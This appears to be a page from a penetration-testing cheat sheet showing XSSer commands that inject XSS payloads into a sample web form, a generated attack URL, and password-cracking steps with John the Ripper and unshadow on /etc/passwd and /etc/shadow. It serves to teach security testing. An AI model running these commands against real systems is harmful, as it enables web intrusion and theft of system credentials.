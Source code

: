 ```
Cross Site “Scripter” (aka XSSer) is an automatic -framework- to detect, exploit and report XSS vulnerabilities in web-based applications.

`--url` is used for the target URL  
`-g` is used to perform XSS sending payload using GET (ex: '/menu.php?id=XSS')  
`-p` is used to perform XSS sending payload using POST (ex: 'foo=1&bar=XSS')  
`--auto` Inject a list of vectors provided by XSSer  
`--Fp` Exploit your own code (FINALPAYLOAD)

Example of XSSer with POST payload

```
xsser --url 'http://website.tld/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

Example of XSSer with GET payload

```
xsser --url "http://website.tld/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote"
```

Example of XSSer with GET payload in coimbination with own code

```
xsser --url "http://website.tld/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"
```

The final attack can bec opied and shared or used via Burp Suite

Example of generated "Final Attack:"

```
http://website.tld/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&initials=d&user-poll-php-submit-button=Submit+Vote
```

* * *

## System attacks

### Password Attacks

#### John the Ripper

```
john -wordlist /path/to/wordlist -users=users.txt hashfile
```

#### Hashcat

* * *

### Unshadow (/etc/passwd & etc/shadow)

First use the unshadow command to combines the /etc/passwd and /etc/shadow files so John can use them.

```
unshadow /etc/passwd /etc/shadow > /tmp/crack.password.db
```

As soon as the unshadow command is finished, the output is ready to be used with John the Ripper.
```